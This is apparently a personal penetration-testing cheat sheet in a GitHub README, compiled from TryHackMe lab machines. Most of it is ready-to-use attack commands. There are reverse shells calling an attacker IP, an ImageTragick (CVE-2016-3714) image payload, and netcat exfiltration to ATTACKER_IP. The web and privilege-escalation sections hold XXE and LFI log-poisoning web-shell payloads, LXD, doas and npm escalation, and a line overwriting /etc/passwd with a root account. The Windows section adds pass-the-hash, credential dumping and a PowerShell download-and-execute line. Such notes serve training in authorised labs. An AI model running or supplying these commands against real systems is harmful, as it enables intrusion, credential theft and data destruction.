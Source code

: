 # HackNotes

This repository contains my personal notes and tricks that I've gathered while working on various machines in the TryHackMe platform. These notes serve as a guide for penetration testing and help me document my progress and findings.

Please note that these notes are a work in progress, and I'll be continuously adding more content as I progress through the challenges and machines.

## Introduction
In this repository, you will find a compilation of various tricks, commands, and techniques that can be useful during penetration testing activities. These notes are intended to assist in the process of hacking and securing systems.

## Tricks
Here are some handy tricks to enhance your pentesting workflow:

---
#### Spawn a fully interactive shell:
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

<details><summary>other</summary>

#### Read file:
```python
xxd -r file.txt 
base64 /etc/shadow | base64 -d
```
`l\s`: Equivalent to `ls`

#### if command to long
```python
python3 py.py 10.10.13.118 "$(cat revshell.ps1)"
```

#### Decompress a gzip file:
```
gzip -d file.gz
```
#### Change file without vim or nano
```
cat > file << EOF 
....
EOF
```

#### Set appropriate permissions for `id_rsa` file before usage:
```linux
chmod 600 id_rsa
```
#### broken png image
```
xxd thm.jpg | head
printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1
```
#### NFS share
```
mkdir tmp/
sudo mount -t nfs 10.10.104.64: tmp
tree tmp
```

#### socat if open port
```python
./socat tcp-listen:7777,reuseaddr,fork tcp:localhost:6666
```

#### create new user in /etc/passwd with root

```
echo "user:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash" > /etc/passwd
```

</details>

---
#### Reverse shells
```nc
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.22.27 4444 >/tmp/f
```
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
```bash
bash -i >& /dev/tcp/10.18.22.27/4444 0>&1
```
<details><summary>CVE-2016–3714</summary>

```
cat > image.png << EOF
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/bash -i > /dev/tcp/10.8.50.72/4444 0<&1 2>&1'
pop graphic-context
pop graphic-context
EOF
```
</details>

---
#### File Transfer on `Netcat`

1. To download a file on the remote shell:
```nc
nc ATTACKER_IP ATTACKER_PORT < [file_to_download]
```
2. To receive the file on the attacker machine:
```nc
nc -l ATTACKER_PORT > [output_file_path]
```
#### Transfer files using `scp`:
```
scp backup.zip toor@192.168.122.30:/home/username_of_remote_host
```
---
<details><summary>Web</summary>

#### Discover hidden directories:
```linux
wfuzz -w /usr/share/dirb/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://10.10.47.7/island/2100/FUZZ.ticket

feroxbuster -u http://10.10.46.121/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -s 200
```

#### Discover subdomains with `wfuzz` :
```
wfuzz -c -w /usr/share/dirb/wordlists/subdomains-top1million-5000.txt -u "http://team.thm" -H "Host: FUZZ.team.thm" --hw 977 
```
#### Discover files with `wfuzz` :
```
wfuzz -c -w /usr/share/dirb/wordlists/LFI-gracefulsecurity-linux.txt -u http://dev.team.thm/script.php\?page\=FUZZ --hw=0
```
#### Brute force wordpress
```
wpscan --url http://target_on_wp.com/ -e u -P /usr/share/wordlists/rockyou.txt
```
#### Example of XXE 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```
#### php local file inclusion
```
http://10.10.62.183/?view=php://filter/read=convert.base64-encode/resource=dog/../index
curl "http://10.10.62.183/" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
http://10.10.62.183/?view=dog/../../../../var/log/apache2/access.log&ext&cmd='command'
```
#### bypass waf sqlmap
```
--tamper=space2comment
```

#### cadaver for WebDAV

</details>

---
### Privilege Escalation:
<details><summary> LXD container exploitation </summary> 

```
wget archive
lxc image import ./archive --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true # If not working, use FINGERPRINT
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```
</details>
<details><summary> with doas </summary>

```
doas -u root openssl enc -in file
doas -u root /bin/bash
```
</details>
<details><summary> with npm -u </summary>

```
mkdir ~/tmp
echo '{"scripts": {"preinstall": "/bin/sh"}}' > ~/tmp/package.json
sudo -u serv-manage /usr/bin/npm -C ~/tmp/ --unsafe-perm i
```
</details>

#### information gathering
```
cat /proc/version
cat /etc/issue
cat /etc/sudoers
cat /etc/sudoers.d
ps
env
sudo -l
hystory
ifconfig
ip route
uname -a
netstat # -at -l -t -tp -i
netstat -tupln | grep LISTEN
find / -writable 2>/dev/null
find / -mtime 10 #find files that were modified in the last 10 days
find . -name flag1.txt
find / -type d -name config #find the directory named config under “/”
find / -type f -perm /4000 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null #compare executables on this list with GTFOBins
find / -type f -user cage 2>/dev/null #find files owned by user cage
getcap -r / 2>/dev/null
cat /etc/exports #file sharing
nmap --script=vuln <ip>
cat /proc/1/cgroup #if u in docker
```

---

### Windows

<details><summary> windows system tools </summary>
<details><summary> Local User and Group Management </summary>
It is a shell application to manage Windows system administrator applications.

```
lusrmgr.msc
```
</details>
<details> <summary> System Configuration utility </summary>

for diagnose startup issues

```
MSConfig
```
</details>
<details> <summary> Task Manager </summary>

to manage (enable/disable) startup items. 
```
taskmgr
```
</details>
<details> <summary> User Account Control </summary>
helps prevent unauthorized changes (which may be initiated by applications, users, viruses, or other forms of malware) to an operating system

```
UserAccountControlSettings.exe
```
</details>
<details> <summary> Computer Management </summary>
the process of managing, monitoring and optimizing a computer system for performance, availability, security

```
compmgmt
```
</details>
<details> <summary> System Information </summary> 
(gathers information about your computer and displays a comprehensive view of your hardware, system components, and software environment, which you can use to diagnose computer issues.)

```
msinfo32
```
</details>
<details> <summary> Resource Monitor </summary>
displays per-process and aggregate CPU, memory, disk, and network usage information, in addition to providing details about which processes are using individual file handles and modules

```
resmon
```
</details>
<details> <summary> Windows Registry </summary>
central hierarchical database used to store information necessary to configure the system for one or more users, applications, and hardware devices

```
regedit
```
</details>
<details><summary>Group policy objects</summary>
a collection of settings that can be applied to OUs
</details>

<details><summary>PowerShell enumeration</summary>

view all of the hidden files in the current directory
```
Get-ChildItem -File -Hidden -ErrorAction SilentlyContinue
```
</details>
</details>

<details><summary> SMB enumeration </summary>

enumerate

```
enum4linux -h
```
open SMB shares

```
smbclient -L 10.10.251.241
```

enumeration
```
smbmap -H 10.10.13.234
smbmap -H '10.10.13.234' -u '' -p '' -R 
smbmap -H '10.10.195.72' -u '' -p '' -R -A 'enter.txt' #download file
```

scan with nmap

```
nmap -p 139,445 -Pn -script smb-enum* 10.10.251.241
nmap -p 139,445 -Pn -script smb-vuln* 10.10.251.241
```

connect with smbclient

```
smbclient \\\\10.10.251.241\\nt4wrksv
```

</details>

<details><summary>rdp </summary>

```
rdesktop -u <username> -p <password> <ip> -g 70% -r disk:folder=/home/toor/cd/apps
```

</details>

<details><summary>AD</summary>

extract credentials and secrets from a systemdump
```
impacket-secretsdump <domain.local>/<user>:<password>@<ip> 
``` 

where we can pht
```
crackmapexec smb <ip>/24 -u '<username>' -H <hash> --local-auth                                
```

login with pht
```
impacket-psexec <username>@<ip> -hashes <hash>
```

Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting
```
responder -I eth0 -rdwv
```

DNSRecon - is a powerful DNS enumeration script
```
dnsrecon -d <IP> -t axfr
use auxiliary/gather/enum_dns #with metasploit
```

upload file with cmd
```
certutil -split -f -urlcache http://<your IP>/file_to_download
powershell -c 'IEX(New-Object Net.WebClient).downloadstring("http://<your_ip>/<file>")' #execute file without download (!!)
```

evil-winrm - Windows Remote Management (if 5985 or 5986 ports are open)
```
evil-winrm -u <username> -p <password> -i <ip>
upload <file on your ps directory> #to upload file
```

</details>

<details><summary>Priv esc</summary>

</details>

---

### links
* [database with CVE exploits](https://cvexploits.io/)
* [explainshell.com](https://explainshell.com/)
* [Linux Kernel CVEs](https://www.linuxkernelcves.com/cves)
* [reverse shells](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [g0tmi1k priv esc linux](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [rapid7](https://www.rapid7.com/)
* [attackerkb](https://attackerkb.com/)
* [cve.mitre.org](https://cve.mitre.org/cve/)
* [exploit-db](https://www.exploit-db.com/)
* [GTFOBins (unix)](https://gtfobins.github.io/)
* [LOLBAS (windows)](https://lolbas-project.github.io/)
* [WADComs (AD)](https://wadcoms.github.io/)
* [WTFBINS](https://wtfbins.wtf/)
* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/)

###  Encoding techniques:
- [splitbrain](https://www.splitbrain.org/_static/ook/)
- [hashes](https://hashes.com/en/tools/hash_identifier)
- [md5hashing](https://md5hashing.net/hash)
- [cyberchef](https://gchq.github.io/CyberChef/)
- [free pass hash cracker](https://crackstation.net/)
- [crack station](https://crackstation.net/)

####  Automated Enumeration Tools
* [linPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [linEnum](https://github.com/rebootuser/LinEnum)
* [LES](https://github.com/mzet-/linux-exploit-suggester)
* [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
* [linux Priv Checker](https://github.com/linted/linuxprivchecker)
* [Git research](https://github.com/internetwache/GitTools)

---
Happy hacking!
